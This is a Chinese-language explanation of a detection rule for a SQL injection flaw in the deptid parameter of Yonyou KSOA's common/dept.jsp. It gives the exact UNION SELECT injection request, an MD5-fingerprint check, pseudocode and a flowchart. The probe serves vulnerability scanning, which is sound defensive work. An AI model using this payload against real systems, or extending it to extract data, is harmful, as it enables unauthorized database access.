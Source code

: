 # 用友KSOA common/dept.jsp SQL注入漏洞探测原理说明

## 1. 漏洞简介

用友KSOA的common/dept.jsp接口存在SQL注入漏洞。攻击者可通过构造恶意参数，获取数据库敏感信息，甚至进行未授权的管理操作。

## 2. 影响范围

- 受影响产品：用友KSOA（具体版本以官方公告为准）
- 只要未修复该漏洞的KSOA系统均可能被利用

## 3. 漏洞原理

该漏洞源于接口对deptid参数未做有效过滤，攻击者可通过注入SQL语句，执行任意数据库操作。

## 4. 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，注入UNION SELECT语句。
2. 数据库执行恶意SQL，返回特征数据。
3. 攻击者据此判断漏洞是否存在。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则通过注入特征payload并检测响应内容进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送GET请求到如下接口：
  ```
  GET /common/dept.jsp?deptid=1'+UNION+ALL+SELECT+60,sys.fn_sqlvarbasetostr(HASHBYTES('MD5','999999999'))--+
  Host: <目标主机>
  ```
  - 其中999999999为随机数，payload会返回其MD5值。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 响应体需包含`0x`加上999999999的MD5值。
  - HTTP状态码为200。

### 5.3 判定逻辑

- 只有当：
  1. 响应体中包含`0x`+md5(999999999)，
  2. 状态码为200，
  才判定目标存在SQL注入漏洞。

- **判定流程伪代码**：
  ```pseudo
  num = 999999999
  md5val = md5(num)
  payload = "/common/dept.jsp?deptid=1'+UNION+ALL+SELECT+60,sys.fn_sqlvarbasetostr(HASHBYTES('MD5','%s'))--+" % num
  发送GET请求
  若响应体含0x+md5val，且状态码为200：
      判定目标存在SQL注入漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的GET请求到common/dept.jsp] --> B{响应体含0x+md5值?}
      B -- 否 --> F[无漏洞或未触发]
      B -- 是 --> C{状态码为200?}
      C -- 否 --> F
      C -- 是 --> E[判定目标存在SQL注入漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [漏洞分析文章](https://mp.weixin.qq.com/s/I6aG2vFIi5nbVZfuVNpyDw) 